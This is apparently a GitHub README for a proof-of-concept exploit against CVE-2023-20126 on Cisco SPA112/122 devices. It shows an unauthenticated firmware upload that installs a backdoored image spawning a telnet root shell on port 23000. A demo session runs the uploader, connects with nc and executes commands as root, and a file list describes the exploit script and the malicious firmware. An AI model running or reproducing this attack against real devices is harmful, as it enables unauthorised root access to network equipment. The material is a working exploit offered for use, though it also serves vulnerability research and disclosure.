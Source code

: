 # RancidCrisco
Minimum Viable PoC for CVE-2023-20126

This is the initial release. It works, but its the 'simplest case' exploit.

Gives a root-shell on port 23000/tcp.

I still need to clean up the toolchain used for editing the firmware and will probably put that in a different repo. It is mostly based on the work of @BigNerd95, but with minor alterations to work on the SPA112/122 firmware files.

## Demo.

```
$ python3 CVE-2023-20126.py http://192.168.0.152 CFW.bin 
Base URL: http://192.168.0.152
Firmware File: CFW.bin
Sending firmware update...
Firmware upgrade successful. Device will reboot eventually and be running the new FW.

< wait a few mins, nervously > 

$ nc -v 192.168.0.152 23000
Connection to 192.168.0.152 port 23000 [tcp/inovaport1] succeeded!
????????


BusyBox v1.10.2 (2019-10-14 12:41:41 CST) built-in shell (ash)
Enter 'help' for a list of built-in commands.

# id;uname -a;pwd
id;uname -a;pwd
uid=0(admin) gid=0(admin)
Linux SPA112 2.6.26.5 #1 PREEMPT Sun Sep 6 10:54:57 CST 2015 armv5tejl unknown
/
# cat /etc/version
cat /etc/version
router_major_version:1.4.1
router_minor_version:SR5
build_date:Mon Oct 14 12:48:12 CST 2019
build_version:6735
hardware_version:1.1.0
```

## Files

- fwupload.py - firmware image uploader that bypasses auth by simply not sending any, exploiting CVE-2023-20126. takes two arguments: URL of the devices Web UI, and firmware file to upload.
- telnet-23000.bin - Proof of Concept malicious firmware image that spawns `telnetd -l /bin/sh -p 23000`, giving a root shell on port 23000/tcp. Based on work by bignerd95.

## Licence
WTFPL.

## Bugs
use git issue. 

## Disclaimer
If this bricks your fucking device, I don't take any responsibility.   
That is YOUR problem.  
I mean, I hacked together that backdoored firmware in an evening.  
Also, why aren't you following the writeup and building your own backdoored firmware?  
